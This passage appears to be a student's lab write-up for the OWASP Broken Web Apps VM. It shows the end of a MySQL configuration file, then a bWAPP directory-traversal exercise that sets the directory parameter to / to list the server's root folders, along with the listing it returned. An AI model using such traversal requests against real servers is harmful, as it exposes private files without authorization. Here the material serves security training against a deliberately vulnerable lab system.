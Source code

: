 ```
quote-names
max_allowed_packet = 16M

[mysql]
#no-auto-rehash # faster start of mysql but no tab completition

[isamchk]
key_buffer = 16M

# Create a second database instance on 3307 that is used by the Security Shepherd application
[mysqld1]
user = mysql
pid-file = /var/run/mysqld/mysqld1.pid
socket = /var/run/mysqld/mysqld1.sock
port = 3307
basedir = /usr
datadir = /var/lib/mysql1
tmpdir = /tmp
bind-address = 127.0.0.1
general_log_file = /var/log/mysql/mysql1.log
general_log = 1
lower_case_table_names = 1


# End MySQL 3307 changes


#
# * IMPORTANT: Additional settings that can override those from this file!
# The files must end with '.cnf', otherwise they'll be ignored.
#
!includedir /etc/mysql/conf.d/

```

## 2. Using the "OWASP bWAPP" application "Directory Traversal - Directories" section, display files in the home directory of the user who has a home directory.

The url that opens is the following: `http://10.200.122.18/bWAPP/directory_traversal_2.php?directory=documents`

I tried to access the root to see if the user has a `home` folder: `http://10.200.122.18/bWAPP/directory_traversal_2.php?directory=/`

The content is the following:

```
usr
initrd.img
lib
etc
root
vmlinuz
sys
owaspbwa
proc
vmlinuz.old
bin
sbin
var
home
lost+found
boot
```